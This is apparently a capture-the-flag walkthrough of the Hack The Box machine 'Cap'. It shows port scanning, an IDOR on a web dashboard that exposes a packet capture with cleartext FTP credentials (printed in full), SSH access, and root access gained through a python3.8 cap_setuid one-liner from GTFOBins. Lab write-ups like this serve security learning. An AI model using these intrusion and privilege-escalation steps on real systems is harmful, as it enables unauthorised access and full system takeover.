 [[Maquinas de THM y HTB]]

Ping for TTL and visibility

``` java
❯ ping -c 1 10.10.10.245

PING 10.10.10.245 (10.10.10.245) 56(84) bytes of data.
64 bytes from 10.10.10.245: icmp_seq=1 ttl=63 time=37.3 ms

--- 10.10.10.245 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 37.252/37.252/37.252/0.000 ms
```

(TTL suggests Linux)

``` java
❯ sudo nmap -sS -A -T4 10.10.10.245 -oN nmap.txt

[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:30 CET
Nmap scan report for 10.10.10.245
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   37.88 ms 10.10.14.1
2   38.07 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
```

## FTP Enum

No FTP anon login allowed sadly:

``` bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> 
ftp> exit
221 Goodbye.

❯ sudo nmap -p 21 --script ftp-anon 10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:34 CET
Nmap scan report for 10.10.10.245
Host is up (0.039s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 4.59 seconds
```

Lets take a look at the other services before running into an hour long brute-force attack.
## HTTP Enum

``` bash
❯ dirb http://10.10.10.245/ | tee dirb.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Feb 18 19:35:42 2025
URL_BASE: http://10.10.10.245/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.245/ ----
+ http://10.10.10.245/data (CODE:302|SIZE:208)                                                        
^C> Testing: http://10.10.10.245/done    
```

Dirb doesnt enumerate much of anything. I'll walk the app before running ferox.

The app has a dashboard and some network data, but the most interesting URL is hxxp://10.10.10.245/data/4, which could potentially be vulnerable to IDORs. (It's often a good practice to fuzz any endpoint that uses a cleartext number for anything)

Changing the URL to hxxp://10.10.10.245/data/0 shows different information than that which we originally had, we can download it as PCAP data.

![[Pasted image 20250218194258.png]]

We find FTP user cred: nathan:Buck3tH4TF0RM3!

``` java
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||29740|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Feb 18 16:19 snap
-r--------    1 1001     1001           33 Feb 18 15:07 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||16511|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************|    33        1.20 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.80 KiB/s)
```

user.txt seems to be the user flag.

We can use the same creds for SSH:

``` java
❯ ssh nathan@10.10.10.245

The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 18 18:46:03 UTC 2025

  System load:           0.02
  Usage of /:            36.7% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3a27

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb 18 18:33:31 2025 from 10.10.14.238
nathan@cap:~$ 
```

Lets transfer LinPEASS via Curl to the target.

We have these two options according to it:

``` bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

Vulnerable to CVE-2021-3560
```

I'm too lazy to try to run an exploit initially, so let's see what cap_setuid is.

This is what GTFOBins mentions on the Python page:

``` bash
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

In our particular case the capabilities are only under py3.8, so we could use:

``` bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we are root:

``` bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
[censored]
# 
```

